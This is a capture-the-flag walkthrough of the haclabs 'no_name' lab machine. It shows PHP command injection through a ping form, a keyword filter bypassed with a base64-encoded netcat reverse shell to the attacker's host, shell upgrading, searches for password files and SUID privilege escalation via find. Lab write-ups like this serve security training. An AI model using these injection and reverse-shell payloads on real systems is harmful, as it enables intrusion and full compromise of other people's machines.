# Exercise 1: haclabs: no_name

Kali and target VM are on 192.168.50.0 network

First, nmap host discovery



Target is in 192.168.50.16. Only one open port: http port  
Get detailed info with nmap -A -p80 192.168.50.16  
Meanwhile, visit website



Post method on the button, perhaps we can explore more

Before we mess around with the form, run feroxbuster in the background to enumerate hidden directories. Use big.txt wordlist since we have a lot of time

feroxbuster --url http://192.168.50.16/ -w /usr/share/wordlists/dirb/big.txt -t 100 -C 403,404 -x php,txt

After trying out various commands (id, ; id, “; id, help), the output is always “Fake ping executed”

Meanwhile, feroxbuster finished running



seems like there is a superadmin.php webpage, similar looking post form



Entered “localhost” onto form, gives a result



If the input is not sanitised, we can try various ways to execute other commands

After trying ;id, “id, “;id, I did some research to find other interesting php operators. Stumbled upon pipe operator: <https://wiki.php.net/rfc/pipe-operator-v2>. Evaluates anything on the left and passes it onto the right as an argument and executes command on the right. Therefore I entered “localhost \| id” which gives me this

Tried the same thing with ls but nothing shows up, perhaps there is some form of input sanitising. Tried running echo, also didn’t work. Ran “find .” as if to list all files in the current directory, like ls. It gives a result



superadmin.php exists, so print file content using cat. “localhost \| cat superadmin.php”.

Similar website structure except there are two login forms. View source 

Filters out phrases containing words in “word” array, including nc which is needed for a reverse shell

Convert netcat command to base64 which will then be decoded and run to bypass word filtering. Listen on port 4444

 



Command: localhost \| echo "bmMgMTkyLjE2OC41MC41IDQ0NDQ=" \| base64 -d



Shell is not spawned. Instead, it prints the decoded value without executing it

Quick google search reveals a php backtick operator which executes anything within it

<https://www.php.net/manual/en/language.operators.execution.php>  
New command is localhost \| \`echo "bmMgMTkyLjE2OC41MC41IDQ0NDQ=" \| base64 -d\`



remove localhost since it is executing the command in our shell instead

New command: \| \`echo "bmMgMTkyLjE2OC41MC41IDQ0NDQ=" \| base64 -d\`

However, no shell access



Seems like we forgot to add -e /bin/bash flag which only works on nc.traditional.

We redo the above command with the new base64 string

\| \`echo "bmMudHJhZGl0aW9uYWwgMTkyLjE2OC41MC41IDQ0NDQgLWUgL2Jpbi9iYXNo=" \| base64 -d\`



We have shell!

haclabs password in a hidden file. Try looking for files containing “pass”. It gives too many results  
find / -name “\*pass\*” 2\> /dev/null



Since it’s a hidden file, we try to search all hidden files that are readable by the user yash  
find / -user yash -name “.\*” 2\> /dev/null



login to haclabs First, upgrade to interactive shell using python’s pty command.  
python -c 'import pty; pty.spawn("/bin/bash")'

Didn’t work. Try python3 and python2



Now login to haclabs and get flag 2



Now we try to find any binaries with SUID bit set to root upon execution

find / -uid 0 -perm -4000 -type f 2\> /dev/null



Search gtfobin for each binary  
[https://gtfobins.github.io/gtfobins/pkexec/\#sudo](https://gtfobins.github.io/gtfobins/pkexec/#sudo) (did not work)  
[https://gtfobins.github.io/gtfobins/find/\#sudo](https://gtfobins.github.io/gtfobins/find/#sudo) (worked)


